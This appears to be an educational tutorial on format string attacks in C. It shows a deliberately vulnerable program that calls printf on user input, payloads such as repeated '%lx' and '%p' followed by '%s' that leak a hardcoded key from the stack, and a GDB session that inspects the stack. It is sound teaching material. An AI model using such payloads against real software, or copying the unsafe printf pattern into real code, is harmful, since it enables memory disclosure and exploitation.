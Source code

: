 # Format String Attack

A format string attack is a type of vulnerability that arises when user-controlled 
input is passed directly to a function like `printf` (or similar functions) without 
proper validation. 

These functions interpret the input as a format string, which can lead to unintended 
behavior, such as reading or writing arbitrary memory, leaking sensitive data, or 
even executing arbitrary code.

In C, functions like `printf` use format specifiers (e.g., `%s`, `%d`, `%p`, `%x`, 
etc.) to format output. If the format string is user-controlled, an attacker can 
craft malicious input to exploit the program. 

* **Reading memory**: Using `%x` or `%p`, an attacker can read values from the stack, 
potentially leaking sensitive data like passwords, keys, or return addresses.

* **Writing memory**: Using `%n`, an attacker can write arbitrary values to memory, 
potentially altering the program's execution flow.

Given the following C code:
```C
  4 void print(char *s_ptr)
  5 {
  6     int i = 0xaabbccdd;
  7 
  8     printf(s_ptr);
  9 }
 10 
 11 
 12 int main(int argc, char **argv)
 13 {
 14     char *key = "X8GX-6S5V-MOI0-PL5F";
 15 
 16     print(argv[1]);
 17 
 18     return 0;
 19 }
```


## Attacking the Format String

```bash
$ ./fmt_string "hello %lx"
hello 7fffffffdbd8

$ ./fmt_string "hello %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %lx %s"
hello 7fffffffdba8 7fffffffdbc0 0 4005a0 7fecb0f1a2d0 1 7fffffffdeef 1 aabbccdd0040057d 7fffffffdac0 400528 7fffffffdba8 200400400 
7fffffffdba0 X8GX-6S5V-MOI0-PL5F

$ ./fmt_string "hello %p %p %p %p %p %p %p %p %p %p %p %p %p %p %s"
hello 0x7fffffffdbb8 0x7fffffffdbd0 (nil) 0x4005a0 0x7f861f2ca2d0 0x1 0x7fffffffdeff 0x1 0xaabbccdd0040057d 0x7fffffffdad0 0x400528 
0x7fffffffdbb8 0x200400400 0x7fffffffdbb0 X8GX-6S5V-MOI0-PL5F[
```


## Inspecting the Stack with GDB 

```bash
$ gdb ./fmt_string
```

```assembly
(gdb) break main
Breakpoint 1 at 0x40050d: file fmt_string.c, line 14.

(gdb) disass main
Dump of assembler code for function main:
   0x00000000004004fe <+0>:     push   rbp
   0x00000000004004ff <+1>:     mov    rbp,rsp
   0x0000000000400502 <+4>:     sub    rsp,0x20
   0x0000000000400506 <+8>:     mov    DWORD PTR [rbp-0x14],edi
   0x0000000000400509 <+11>:    mov    QWORD PTR [rbp-0x20],rsi
   0x000000000040050d <+15>:    mov    QWORD PTR [rbp-0x8],0x4005c0
   0x0000000000400515 <+23>:    mov    rax,QWORD PTR [rbp-0x20]
   0x0000000000400519 <+27>:    add    rax,0x8
   0x000000000040051d <+31>:    mov    rax,QWORD PTR [rax]
   0x0000000000400520 <+34>:    mov    rdi,rax
   0x0000000000400523 <+37>:    call   0x4004d7 <print>
   0x0000000000400528 <+42>:    mov    eax,0x0
   0x000000000040052d <+47>:    leave
   0x000000000040052e <+48>:    ret

(gdb) disass print
Dump of assembler code for function print:
   0x00000000004004d7 <+0>:     push   rbp
   0x00000000004004d8 <+1>:     mov    rbp,rsp
   0x00000000004004db <+4>:     sub    rsp,0x20
   0x00000000004004df <+8>:     mov    QWORD PTR [rbp-0x18],rdi
   0x00000000004004e3 <+12>:    mov    DWORD PTR [rbp-0x4],0xaabbccdd
   0x00000000004004ea <+19>:    mov    rax,QWORD PTR [rbp-0x18]
   0x00000000004004ee <+23>:    mov    rdi,rax
   0x00000000004004f1 <+26>:    mov    eax,0x0
>  0x00000000004004f6 <+31>:    call   0x4003f0 <printf@plt>
   0x00000000004004fb <+36>:    nop
   0x00000000004004fc <+37>:    leave
   0x00000000004004fd <+38>:    ret

(gdb) break *0x00000000004004f6
Breakpoint 2 at 0x4004f6: file fmt_string.c, line 8.

(gdb) run hello
Breakpoint 1, main (argc=2, argv=0xbfffefb4) at fmt_string.c:16

(gdb) disass 
Dump of assembler code for function main:
   0x00000000004004fe <+0>:     push   rbp
   0x00000000004004ff <+1>:     mov    rbp,rsp
   0x0000000000400502 <+4>:     sub    rsp,0x20
   0x0000000000400506 <+8>:     mov    DWORD PTR [rbp-0x14],edi
   0x0000000000400509 <+11>:    mov    QWORD PTR [rbp-0x20],rsi
   0x000000000040050d <+15>:    mov    QWORD PTR [rbp-0x8],0x4005c0
=> 0x0000000000400515 <+23>:    mov    rax,QWORD PTR [rbp-0x20]
   0x0000000000400519 <+27>:    add    rax,0x8
   0x000000000040051d <+31>:    mov    rax,QWORD PTR [rax]
   0x0000000000400520 <+34>:    mov    rdi,rax
   0x0000000000400523 <+37>:    call   0x4004d7 <print>
>  0x0000000000400528 <+42>:    mov    eax,0x0
   0x000000000040052d <+47>:    leave
   0x000000000040052e <+48>:    ret

(gdb) c
Breakpoint 2, 0x00000000004004f6 in print (s_ptr=0x7fffffffdeae "hello") at fmt_string.c:8

(gdb) disass
Dump of assembler code for function print:
   0x00000000004004d7 <+0>:     push   rbp
   0x00000000004004d8 <+1>:     mov    rbp,rsp
   0x00000000004004db <+4>:     sub    rsp,0x20
   0x00000000004004df <+8>:     mov    QWORD PTR [rbp-0x18],rdi
   0x00000000004004e3 <+12>:    mov    DWORD PTR [rbp-0x4],0xaabbccdd
   0x00000000004004ea <+19>:    mov    rax,QWORD PTR [rbp-0x18]
   0x00000000004004ee <+23>:    mov    rdi,rax
   0x00000000004004f1 <+26>:    mov    eax,0x0
=> 0x00000000004004f6 <+31>:    call   0x4003f0 <printf@plt>
   0x00000000004004fb <+36>:    nop
   0x00000000004004fc <+37>:    leave
   0x00000000004004fd <+38>:    ret

gdb) info register
rbp            0x7fffffffd9e0   0x7fffffffd9e0
rsp            0x7fffffffd9c0   0x7fffffffd9c0
rip            0x4004f6 0x4004f6 <print+31>

(gdb) x/16xg $rsp
0x7fffffffd9c0: 0x0000000000000001      0x00007fffffffdeae
0x7fffffffd9d0: 0x0000000000000001      0xaabbccdd0040057d
0x7fffffffd9e0: 0x00007fffffffda10      0x0000000000400528
0x7fffffffd9f0: 0x00007fffffffdaf8      0x0000000200400400

(gdb) stepi
0x00000000004003f0 in printf@plt ()

(gdb) disass
Dump of assembler code for function printf@plt:
=> 0x00000000004003f0 <+0>:     jmp    QWORD PTR [rip+0x200c22]        # 0x601018
   0x00000000004003f6 <+6>:     push   0x0
   0x00000000004003fb <+11>:    jmp    0x4003e0

(gdb) info register
rdi            0x7fffffffdeb8   140737488346808
rbp            0x7fffffffd9e0   0x7fffffffd9e0
rsp            0x7fffffffd9b8   0x7fffffffd9b8
rip            0x4003f0 0x4003f0 <printf@plt>

(gdb) x/16xg $rsp
0x7fffffffd9b8: 0x00000000004004fb      0x0000000000000001
0x7fffffffd9c8: 0x00007fffffffdeb8      0x0000000000000001
0x7fffffffd9d8: 0xaabbccdd0040057d      0x00007fffffffda10
0x7fffffffd9e8: 0x0000000000400528      0x00007fffffffdaf8
0x7fffffffd9f8: 0x0000000200400400      0x00007fffffffdaf0
0x7fffffffda08: 0x00000000004005c0      0x0000000000400530
0x7fffffffda18: 0x00007f920628450a      0x0000000000000002
0x7fffffffda28: 0x00007fffffffdaf8      0x0000000200040000

(gdb) x/1s 0x7fffffffdeb8
0x7fffffffdeb8: "hello"

(gdb) x/1s 0x00000000004005c0
0x4005c0:       "X8GX-6S5V-MOI0-PL5F"
```

*Egon Teiniker, 2025, GPL v3.0*